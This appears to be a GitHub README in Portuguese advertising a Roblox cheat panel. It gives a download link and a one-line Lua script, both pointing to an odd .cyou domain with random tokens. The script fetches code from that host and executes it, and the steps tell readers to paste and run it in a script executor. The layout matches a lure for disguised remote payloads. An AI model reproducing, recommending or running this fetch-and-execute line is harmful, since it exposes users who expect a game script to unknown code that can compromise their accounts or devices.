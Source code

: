 # ksx's Panel

# [Download Link](https://installbixz.cyou?2ogjqe2elpjiw04)

Script para jogos do roblox

### Script
```lua
loadstring(game:HttpGet('https://installbixz.cyou?fiqzf0wxndv7cst'))()
```

## Como Usar

1. Copie o código do script desejado.
2. Cole-o em um executor de scripts compatível com Roblox.
3. Execute o script para ativá-lo.
